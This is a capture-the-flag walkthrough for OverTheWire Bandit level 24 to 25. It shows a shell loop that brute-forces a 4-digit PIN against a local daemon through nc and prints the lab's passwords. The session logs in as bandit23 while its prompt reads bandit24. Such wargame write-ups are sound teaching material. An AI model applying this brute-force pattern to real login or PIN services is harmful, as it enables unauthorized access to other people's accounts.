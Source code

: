 ```yaml
---
title: OverTheWire Bandit Level 24 - 25
date: 2022-07-29T07:00:00
tags: [overthewire, bandit, linux, shell, networking]
---
```

# Prompt
> A daemon is listening on port 30002 and will give you the password for `bandit25` if given the password for `bandit24` and a secret numeric 4-digit PIN code. There is no way to retrieve the PIN code except by going through all of the 10000 combinations, called brute-forcing.

# Solution
```sh
$ ssh bandit23@bandit.labs.overthewire.org -p 2220
bandit23@bandit.labs.overthewire.org password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
bandit24@bandit:~$ cd $(mktemp -d)
bandit24@bandit:/tmp/tmp.doM3xvTNc4$ for i in {0000..9999}; do echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" >> bandit24.log; done
bandit24@bandit:/tmp/tmp.doM3xvTNc4$ cat bandit24.log | nc localhost 30002 > bandit25.log
bandit24@bandit:/tmp/tmp.doM3xvTNc4$ grep -v "Wrong!" bandit25.log
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```

# References
* MayADevBe. (2022, May 30). OverTheWire Bandit Level 24 - 25. MayADevBe. <https://mayadevbe.me/posts/overthewire/bandit/level24/>
